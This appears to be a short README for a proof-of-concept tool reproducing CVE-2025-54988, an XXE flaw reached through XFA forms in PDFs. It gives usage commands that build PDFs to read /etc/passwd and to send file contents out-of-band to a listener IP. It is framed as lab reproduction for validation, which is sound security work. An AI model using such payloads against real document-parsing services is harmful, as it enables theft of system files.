 # CVE-2025-54988 - POC
Disclaimer: I am not the original discoverer of this vulnerability. This post documents my process of reproducing the issue in a controlled environment for educational purposes and to help others validate their own systems.
The tests were conducted in an isolated lab with no impact to production systems.

Usage: 

```
python3 xfa_xxe_poc_gen.py --mode file --file /etc/passwd -o xfa_passwd.pdf
python3 xfa_xxe_poc_gen.py --mode oob --ip 127.0.0.1 --port 8888 --write-dtd -o xfa_oob.pdf
python3 xfa_xxe_poc_gen.py --mode oob --ip 10.10.14.3 --port 8080 --oob-file /etc/hostname --param d
```

<img width="1845" height="719" alt="image" src="https://github.com/user-attachments/assets/fb7f27a8-28c8-4131-b27e-25ccab0af838" />
